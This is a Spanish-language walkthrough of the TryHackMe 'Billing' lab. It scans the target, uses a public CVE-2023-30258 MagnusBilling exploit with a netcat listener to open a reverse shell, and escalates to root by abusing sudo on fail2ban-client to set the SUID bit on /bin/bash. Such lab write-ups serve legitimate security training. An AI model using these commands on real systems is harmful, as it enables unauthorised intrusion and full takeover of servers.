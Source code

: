 ```yaml
---
description: '✍️ Autor: tryhackme, RunasRs 🔍 Dificultad: Fácil'
---
```


# Billing

### 🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 10.10.118.35
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap 10.10.118.35
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo el puerto **22** perteneciente al servicio **SSH,** el puerto **80** perteneciente al servicio **HTTP** y el puerto **3306** perteneciente a **MySQL** están abiertos, por lo que se procederá a indagar más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80,3306 -v 10.10.118.35
```

para obtener más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Revisamos el puerto 80.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-06-20 213144.png" alt=""><figcaption></figcaption></figure>

Es un panel de **MagnusBilling** por lo que ahora haremos un escaneo de directorios por si hay algo relevante.

```
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,htm,php,txt,xml,js -u http://10.10.118.35
```

Encontramos un directorio interesante donde nos menciona la versión y así poder encontrar vulnerabilidad.&#x20;

<div><figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure> <figure><img src="../../.gitbook/assets/Captura de pantalla 2025-06-20 215053.png" alt=""><figcaption></figcaption></figure></div>

### 🚀 **EXPLOTACIÓN**

{% @github-files/github-code-block url="https://github.com/tinashelorenzi/CVE-2023-30258-magnus-billing-v7-exploit" %}

```
git clone https://github.com/tinashelorenzi/CVE-2023-30258-magnus-billing-v7-exploit.git
cd CVE-2023-30258-magnus-billing-v7-exploit
```

Realizamos la Reverse Shell.

```
nc -nlvp 4444
python3 exploit.py -t 10.10.118.35 -a 10.8.146.101 -p 4444
```

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Hacemos tratamiento de la TTY.

```
script /dev/null -c bash
CTRL+Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```

Tenemos permiso sudo del binario **fail2ban-client**.

{% embed url="https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-fail2ban-client-privilege-escalation/" %}

```bash
sudo /usr/bin/fail2ban-client status
sudo /usr/bin/fail2ban-client get ast-cli-attck actions
sudo /usr/bin/fail2ban-client set ast-cli-attck addaction evil
sudo /usr/bin/fail2ban-client set ast-cli-attck action evil actionban "chmod +s /bin/bash"
sudo /usr/bin/fail2ban-client set ast-cli-attck banip 1.2.3.5
/bin/bash -p
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
